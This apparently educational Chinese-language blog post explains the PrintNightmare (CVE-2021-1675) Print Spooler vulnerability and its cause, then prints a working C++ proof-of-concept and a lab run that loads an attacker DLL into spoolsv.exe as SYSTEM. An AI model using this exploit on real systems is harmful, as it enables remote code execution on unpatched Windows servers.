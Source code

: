 # 【Day 03】又是 Print Spooler 搞的鬼 - CVE-2021-1675 PrintNightmare

## 環境
* Windows Server 2019 (目標環境不能被更新過)
* Visual Studio 2019
* Impacket 0.9.23

## 漏洞介紹
今年微軟的 Print Spooler 漏洞頻頻，包含六月中的 CVE-2021-1675、七月的 CVE-2021-34527，還有八月的 CVE-2021-36936。這篇要說明這個被微軟稱作 PrintingNightmare 的 CVE-2021-1675 的成因與原理。

列印多工緩衝處理器 - Print Spooler，是用來管理所有本地和網絡打印隊列及控制所有打印工作。

原本這個漏洞只被認為是個 LPE(Local Privilege Escalation) 漏洞。但是只要在同個 Domain，並且在目標機器有一般使用者權限，能夠存取 Print Spooler 服務，就可以觸發這個漏洞。因此這個漏洞就升級成 RCE(Remote Code Execution) 漏洞。

## 確認服務
可以使用 [impacket](https://github.com/SecureAuthCorp/impacket) 的 rpcdump 確認 Print Spooler 服務是否存在。
```
$ python3 rpcdump.py @192.168.88.145 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-RPRN]: Print System Remote Protocol
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

## 漏洞成因與原理
### RPC
![](https://i.imgur.com/I0OxHY7.png)
從 Client 透過 RPC 傳送資訊給 Server 的 Print Spooler 服務，並且更新檔案。其中在處理 RPC 的過程，localspl.dll 中的 SplAddPrinterDriverEx 這個函數因為沒有檢查 SeLoadDriverPrivilege 權限，最終導致讓攻擊者可以提權至 SYSTEM 並執行任意程式。

### Upgrade
當 Print Spooler 有發生更新的狀況時，新版本的檔案會放在 `C:\Windows\System32\spool\drivers\x64\3`，而舊版本的檔案保留在 `C:\Windows\System32\spool\drivers\x64\3\Old\` 目錄，Old 裡面又會放流水號的目錄以免有很多個舊版本。攻擊者可以透過這點利用 RPC 先把網路芳鄰的檔案複製進本機目錄，再更新 Print Spooler 載入自己的 Image。

### 更新的檔案
三個參數 pDriverPath、pDataFile、pConfigFile 分別代表三個路徑，其中 pDriverPath 必須是 UNIDRV.dll，而 UNIDRV.dll 的位置會根據版本不同而改變，在我的 Windows Server 2019 的路徑是 `C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL`；pDataFile 可以使用 UNC Path，雖然不會載入到 spoolsv.exe，但是檔案會被複製；pConfigFile 則是會載入 spoolsv.exe 的檔案，不過這不能填 UNC Path，得要先利用 pDataFile 把檔案複製到本機後再 RPC 一次才載入。

## 漏洞重現
### 流程
1. 設定 RPC 參數
    * 其中 pDriverPath 必須是 UNIDRV.DLL;
    * pConfigFile 是會被載入的檔案;
    * pDataFile 不會被載入，但是會被複製到 C:\Windows\System32\spool\drivers\x64\3\ 
2. 取得經過身分驗證的 Binding Handle
3. 傳送 RPC，總共至少要傳 3 次
    * 第一次會先把 pDataFile 檔案複製到 C:\Windows\System32\spool\drivers\x64\3\ ，原本的檔案則被放到 C:\Windows\System32\spool\drivers\x64\3\Old\1 
    * 第二次會把第一次被複製到 C:\Windows\System32\spool\drivers\x64\3\ 的檔案放到 C:\Windows\System32\spool\drivers\x64\3\Old\2\ 
    * 第三次會把 pConfigFile 改成第二次被放到 C:\Windows\System32\spool\drivers\x64\3\Old\2 的檔案 
    
### POC
改自 [afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)，不過現在連結似乎失效了，完整 POC 放在 [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/%E5%8F%88%E6%98%AFPrintSpooler%E6%90%9E%E7%9A%84%E9%AC%BC/PrintNightmare)。
```cpp=
int wmain(int argc, wchar_t* argv[]) {
    if (argc != 5) {
        printf(".\\poc.exe dc_ip path_to_exp user_name password\n");
        printf("For example: \n");
        printf(".\\poc.exe  192.168.228.191 \\\\192.168.228.1\\test\\MyExploit.dll test 123 \n");
        return 0;
    }
    wsprintf(dc_ip, L"%s", argv[1]);
    wsprintf(dc_path, L"\\\\%s", argv[1]);
    wsprintf(src_exp_path, L"%s", argv[2]);
    wsprintf(exp_name, L"%s", wcsrchr(argv[2], '\\')+1);
    wsprintf(username, L"%s", argv[3]);
    wsprintf(password, L"%s", argv[4]);

    printf("[+] Get Info:\n");
    wprintf(L"[+] dc_ip: %s\n", dc_ip);
    wprintf(L"[+] dc_path: %s\n", dc_path);
    wprintf(L"[+] src_exp_path: %s\n", src_exp_path);
    wprintf(L"[+] exp_name: %s\n", exp_name);
    wprintf(L"[+] username: %s\n", username);
    wprintf(L"[+] password: %s\n\n", password);

    // 1. 設定 RPC 參數
    // 其中 pDriverPath 必須是 UNIDRV.DLL;
    // pConfigFile 是會被載入的檔案;
    // pDataFile 不會被載入，但是會被複製到 C:\Windows\System32\spool\drivers\x64\3\ 
    DRIVER_INFO_2 info;
    info.cVersion = 3;
    info.pConfigFile = (LPWSTR)L"C:\\Windows\\System32\\KernelBase.dll";
    info.pDataFile = src_exp_path;
    info.pDriverPath = (LPWSTR)L"C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL";
    info.pEnvironment = (LPWSTR)L"Windows x64";
    info.pName = (LPWSTR)L"XDD";
    DRIVER_CONTAINER container_info;
    container_info.Level = 2;
    container_info.DriverInfo.Level2 = new DRIVER_INFO_2();
    container_info.DriverInfo.Level2->cVersion = 3;
    container_info.DriverInfo.Level2->pConfigFile = info.pConfigFile;
    container_info.DriverInfo.Level2->pDataFile = info.pDataFile;
    container_info.DriverInfo.Level2->pDriverPath = info.pDriverPath;
    container_info.DriverInfo.Level2->pEnvironment = info.pEnvironment;
    container_info.DriverInfo.Level2->pName = info.pName;

    // 2. 取得經過身分驗證的 Binding Handle
    RPC_BINDING_HANDLE handle;
    RPC_STATUS status = CreateBindingHandle(&handle);

    // 3. 傳送 RPC
    RpcTryExcept
    {
        DWORD hr;

        // 第一次會先把 pDataFile 檔案複製到 C:\Windows\System32\spool\drivers\x64\3\ ，原本的檔案則被放到 C:\Windows\System32\spool\drivers\x64\3\Old\1 
        // 第二次會把第一次被複製到 C:\Windows\System32\spool\drivers\x64\3\ 的檔案放到 C:\Windows\System32\spool\drivers\x64\3\Old\2\ 
        for (int i = 0; i < 2; i++) {
            hr = RpcAddPrinterDriverEx(handle,
                dc_path,
                &container_info,
                APD_COPY_ALL_FILES | 0x10 | 0x8000
            );
        }
		
        // 第三次會把 pConfigFile 改成第二次被放到 C:\Windows\System32\spool\drivers\x64\3\Old\2 的檔案 
        wsprintf(dest_exp_path, L"C:\\Windows\\System32\\spool\\drivers\\x64\\3\\Old\\2\\%s", exp_name);
        container_info.DriverInfo.Level2->pConfigFile = dest_exp_path;
        hr = RpcAddPrinterDriverEx(handle,
            dc_path,
            &container_info,
            APD_COPY_ALL_FILES | 0x10 | 0x8000
        );
        wprintf(L"[*] Try to load %s - ErrorCode %d\n", container_info.DriverInfo.Level2->pConfigFile,hr);
        if (hr == 0) return 0;
    }
    RpcExcept(1) {
        status = RpcExceptionCode();
        printf("RPC ERROR CODE %d\n", status);
    }
    RpcEndExcept
}
```

### 實際測試
```
# POC.exe 192.168.88.145 \\192.168.88.145\share\InjectedDLL.dll user password
[+] Get Info:
[+] dc_ip: 192.168.88.145
[+] dc_path: \\192.168.88.145
[+] src_exp_path: \\192.168.88.145\share\InjectedDLL.dll
[+] exp_name: InjectedDLL.dll
[+] username: user
[+] password: password

[+] Binding successful!! handle: -1519388184
[*] Try to load C:\Windows\System32\spool\drivers\x64\3\Old\2\InjectedDLL.dll - ErrorCode 0
```

POC 會試圖複製並載入 InjectedDLL.dll 檔案，ErrorCode 為 0 時代表成功。這時在目標機器用 Process Explorer 查看 spoolsv.exe 有沒有成功載入 InjectedDLL.dll。

## 修補狀況
CVE-2021-1675 已在今年六月的 Patch Tuesday 修補，不過因為沒修補完全而出現的 CVE-2021-34527 又是另一個故事了。

## 參考資料
* [曾感染臺灣的勒索軟體Magniber正在開採PrintNightmare漏洞](https://www.ithome.com.tw/news/146233)
* [cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
* [微軟8月Patch Tuesday修補3個零時差漏洞， 包含一新的Print Spooler漏洞](https://www.ithome.com.tw/news/146135)
* [afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)
